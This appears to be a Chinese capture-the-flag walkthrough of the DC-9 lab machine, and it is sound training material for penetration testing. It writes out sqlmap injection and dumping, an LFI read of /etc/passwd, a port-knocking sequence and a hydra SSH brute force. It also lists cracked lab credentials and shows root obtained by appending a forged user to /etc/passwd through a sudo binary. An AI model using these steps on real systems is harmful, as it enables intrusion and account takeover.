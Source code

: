 # DC-9

![image-20200619095442395](assets/DC-9.assets/image-20200619095442395.png)

![image-20200619100459511](assets/DC-9.assets/image-20200619100459511.png)

![image-20200619100638593](assets/DC-9.assets/image-20200619100638593.png)

80页面目录看了一圈没什么有用的，抓search通讯包

![image-20200619102730763](assets/DC-9.assets/image-20200619102730763.png)

![image-20200619102902653](assets/DC-9.assets/image-20200619102902653.png)

sqlmap注入并dump

```bash
sqlmap -r search.txt --dbs --batch --dump
```

![image-20200619102933100](assets/DC-9.assets/image-20200619102933100.png)

```bash
admin：856f5de590ef37314e7c3bdf6f8a66dc
```

![image-20200619103044318](assets/DC-9.assets/image-20200619103044318.png)

```bash
admin:transorbital1
```

![image-20200619103401933](assets/DC-9.assets/image-20200619103401933.png)

![image-20200619103429063](assets/DC-9.assets/image-20200619103429063.png)

看了看还是没有什么新线索，这里可能有一个LFI？

![image-20200619103914249](assets/DC-9.assets/image-20200619103914249.png)

但是我们并不知道参数是什么，可以盲目的猜测到可能是file

```bash
http://10.10.10.136/manage.php?file=../../../../../../etc/passwd
```

![image-20200619110522919](assets/DC-9.assets/image-20200619110522919.png)

考虑到ssh一直被过滤，可以查看/etc/knockd.conf 设置已知道敲端口的顺序

![image-20200619110625166](assets/DC-9.assets/image-20200619110625166.png)

![image-20200619111201633](assets/DC-9.assets/image-20200619111201633.png)

```bash
nmap -Pn --host-timeout 100 --max-retries 0 -p 7469 10.10.10.136
nmap -Pn --host-timeout 100 --max-retries 0 -p 8475 10.10.10.136
nmap -Pn --host-timeout 100 --max-retries 0 -p 9842 10.10.10.136
```

![image-20200619112439403](assets/DC-9.assets/image-20200619112439403.png)

![image-20200619112508605](assets/DC-9.assets/image-20200619112508605.png)

试验了一下之前的登录凭据复用，但是并不正确。

考虑到我们已经得到的信息，可以回数据库，考虑到我们之前只dump了staff库，并没有dump users库

![image-20200619113125143](assets/DC-9.assets/image-20200619113125143.png)

重新dump一下

```bash
sqlmap -r search.txt -D users --batch --dump
```

![image-20200619113258714](assets/DC-9.assets/image-20200619113258714.png)

果然，前期枚举并不够细致，漏下了重要信息。

将凭据生成username.txt和passwd.txt以便传入hydra暴力测试ssh

```bash
hydra -L username.txt -P passwd.txt 10.10.10.136 ssh
```

得到凭据

```bash
chandlerb:UrAG0D!
joeyt:Passw0rd
janitor:Ilovepeepee
```

逐个登录检查

在janitor的目录下发现了更多密码

![image-20200619114228294](assets/DC-9.assets/image-20200619114228294.png)

使用这些密码增加字典，并重复暴力ssh

得到了新的凭证。

`fredf:B4-Tru3-001`

![image-20200619114401671](assets/DC-9.assets/image-20200619114401671.png)

![image-20200619114434633](assets/DC-9.assets/image-20200619114434633.png)

这是已经编译好的执行文件，在文件夹逐步搜索，在上N级目录中找到了其对应的python源码

![image-20200619114904395](assets/DC-9.assets/image-20200619114904395.png)

![image-20200619114948993](assets/DC-9.assets/image-20200619114948993.png)

看代码是打开第一个文件，读取内容，然后打开第二个文件，将第一个文件的内容写入到第二个文件之后。也就是说我们可以利用这个程序，为passwd文件附加伪造的root用户。

首先先制作用户的hash

```bash
openssl passwd -1 -salt evil abcdef
```

![image-20200619115605888](assets/DC-9.assets/image-20200619115605888.png)

`$1$evil$PJUrXHFg5Juh42jLCKQs10`

然后仿照passwd文件格式伪造用户信息

```bash
evil:$1$evil$PJUrXHFg5Juh42jLCKQs10:0:0::/root:/bin/bash
```

然后将此伪造内容echo进一个新的文件

![image-20200619115800908](assets/DC-9.assets/image-20200619115800908.png)



接着利用sudo

```bash
sudo ../opt/devstuff/dist/test/test evil.txt /etc/passwd		
```

![image-20200619120313373](assets/DC-9.assets/image-20200619120313373.png)

可以看到已经成功添加

![image-20200619120346897](assets/DC-9.assets/image-20200619120346897.png)

切换到evil用户

![image-20200619120427900](assets/DC-9.assets/image-20200619120427900.png)